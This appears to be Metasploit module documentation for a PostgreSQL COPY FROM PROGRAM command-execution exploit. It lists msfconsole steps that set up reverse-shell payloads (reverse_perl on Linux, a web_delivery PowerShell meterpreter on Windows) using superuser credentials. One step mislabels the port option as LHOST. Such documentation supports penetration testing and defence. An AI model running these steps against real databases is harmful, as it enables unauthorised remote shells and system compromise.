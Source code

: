 This module attempts to create a new table, then execute system commands in the
context of copying the command output into the table.

This module should work on all Postgres systems running version 9.3 and above.

## Vulnerable Application

  Download any version of PostgreSQL from 9.3 to 11.2 (Latest at time of writing)
  Set up the software and connect as the postgres superuser.
  Use the techniques described in this blogpost to verify command execution:
    https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## Verification Steps

  You must be able to connect to the PostgreSQL database, and have a valid set of superuser
  credentials, or a user in the 'pg_read_server_files' group
  
  Exploiting Linux/OSX:

    1. Start msfconsole
    2. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    3. set RHOST target.ip.add.ress
    4. set payload cmd/unix/reverse_perl
    5. set PASSWORD postgres
    6. set USERNAME postgres
    7. set DATABASE postgres
    8. set LHOST my.ip.add.ress
    9. set LHOST myport
    10. exploit
  
  Exploiting Windows:

    1. Start msfconsole
    2. use exploit/multi/script/web_delivery
    3. set target 2
    4. set payload windows/meterpreter/reverse_tcp
    5. set LHOST my.ip.add.ress
    6. exploit -j
    7. Copy powershell command, add \ to escape any single quotes
    8. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    9. set RHOST target.ip.add.ress
    10. set COMMAND powershell... (Output from Step 7)
    11. set PASSWORD postgres
    12. set USERNAME postgres
    13. set DATABASE postgres
    14. exploit


## Options

  **COMMAND**

  Instead of using a cmd stager metasploit payload, for windows you need to execute a command. This is suggested to be 
  a web_delivery powershell command, however other techniques can be used. 
  
  **TABLENAME**
  
  The name of the table to create in the database, default is set to 'msftesttable', this table will be dropped create a new
  one each time the exploit is run.
  
  **DATABASE**
  
  Name of the database to connect to
  
  **USERNAME**
  
  A valid username that allows access to the database
  
  **PASSWORD**
  
  A valid password that allows access to the database
  
## Scenarios

### Exploiting PostgreSQL 10.7 on Linux

   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*G0E4YMdLA59lDsDm38Ce-g.png)
   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*sJLJlahpTxWrB566k-IHwQ.png)
   
### Exploiting PostgreSQL 10.7 on Windows

   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*3Bl2irM5HTo6g9QyrsikrQ.png)
   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*fy3LiHGoy18GITlZ0xeRyQ.png)
   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*wT2Nys2_jZiwpY6AsjLGpQ.png)

